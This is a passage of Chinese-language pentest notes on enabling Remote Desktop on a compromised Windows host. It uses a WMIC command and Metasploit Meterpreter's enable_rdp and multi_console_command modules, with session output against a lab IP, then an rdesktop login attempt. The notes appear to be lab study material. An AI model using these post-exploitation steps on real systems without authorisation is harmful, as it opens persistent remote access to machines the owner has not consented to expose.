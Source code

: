 

#### 法二：VMIC (推荐)

> 该方法会自动开启系统远程桌面中的允许远程连接到此计算机并启动默认的3389端口

```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

![image-20220814194107916](./1.assets/image-20220814194107916.png)



#### 法三：MSF

##### **Meterpretr enable_rdp模块**

```
run post/windows/manage/enable_rdp 
run multi_console_command -r <FileLocation>				（文件为启用模块后的给的路径，都在/root/.msf4/loot/目录下）
```



```shell
meterpreter > run post/windows/manage/enable_rdp 

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
meterpreter > 
meterpreter > run multi_console_command -r /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
[*] Running Command List ...
[*]     Running command execute -H -f cmd.exe -a "/c sc config termservice start= disabled"
Process 3008 created.
[*]     Running command execute -H -f cmd.exe -a "/c sc stop termservice"
Process 2848 created.
[*]     Running command execute -H -f cmd.exe -a "/c 'netsh firewall set service type = remotedesktop mode = enable'"
Process 1416 created.
```

##### GetGUI模块 (略)



#### 远程登录

在MSF里死活登不进

```
msf6 exploit(multi/handler) > rdesktop 192.168.220.138
[*] exec: rdesktop 192.168.220.138

Core(warning): Certificate received from server is NOT trusted by this sspecific certificate.
```
